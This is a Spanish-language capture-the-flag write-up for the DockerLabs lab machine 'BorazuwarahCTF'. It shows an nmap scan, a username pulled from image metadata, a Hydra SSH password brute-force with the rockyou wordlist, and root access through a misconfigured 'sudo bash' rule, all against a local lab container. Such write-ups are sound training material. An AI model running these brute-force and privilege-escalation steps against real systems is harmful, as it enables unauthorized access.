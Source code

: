 ## WRITEUP DE LA MAQUINA BORAZUWARAHCTF DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-29 12:33 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```
Vemos que los puertos 22 y 80 estan abiertos (servicios ssh y http respectivamente). Vamos a ingresar la ip de la máquina víctima en cualquier navegador para observar que tenemos.
<br><br>
![Foto de la pagina web](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/fa394feb-c077-46ca-bf1e-7e7b3e52798a)
der.JPG)
Vemos que solo hay una imagen jpeg, se me ocurre descargarla y mediante alguna herramienta de OSINT podamos sacar datos importantes. Esto lo haremos con la herramienta exiftool:
```
└─$ exiftool kinder.jpeg
ExifTool Version Number         : 12.76
File Name                       : kinder.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:06:16 11:40:00-04:00
File Access Date/Time           : 2024:06:26 14:25:09-04:00
File Inode Change Date/Time     : 2024:06:16 11:40:00-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207

```
De los datos obtenidos, nos llama la atencion el siguiente:

```
Description                     : ---------- User: borazuwarah ----------
``` 
Ya sabemos el nombre de usuario, por ello el próximo paso sera intentar hacer un ataque de fuerza bruta para encontrar la contraseña del usuario "borazuwarah", esto lo haremos con la herramienta "hydra":
```
└─$ hydra -l borazuwarah -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 5
```
"-l root" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-29 13:37:58
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-29 13:38:02
```
Tenemos que para el usuario "Borazuwarah" la contraseña es "123456", para entrar lo haremos mediante ssh:

```
└─$ ssh borazuwarah@172.17.0.2 
borazuwarah@172.17.0.2's password: 
Linux f976bd56f8e8 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 26 18:26:17 2024 from 172.17.0.1
borazuwarah@f976bd56f8e8:~$ 
```
Ya somos el usuario "Burazuwarah" ahora toca el paso de siempre, ejecutar "sudo -l" y escalar privilegios:

```
borazuwarah@f976bd56f8e8:~$ sudo -l
Matching Defaults entries for borazuwarah on f976bd56f8e8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on f976bd56f8e8:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```
Mediante la pagina de GTFOBINS -> https://gtfobins.github.io/gtfobins/bash/#sudo
<br>
Con el siguiente comando escalaremos privilegios y conseguiremos ser root:

```
borazuwarah@f976bd56f8e8:~$ sudo bash
root@f976bd56f8e8:/home/borazuwarah# whoami
root
```
Estamos dentro. Muchas gracias y nos vemos en la próxima.
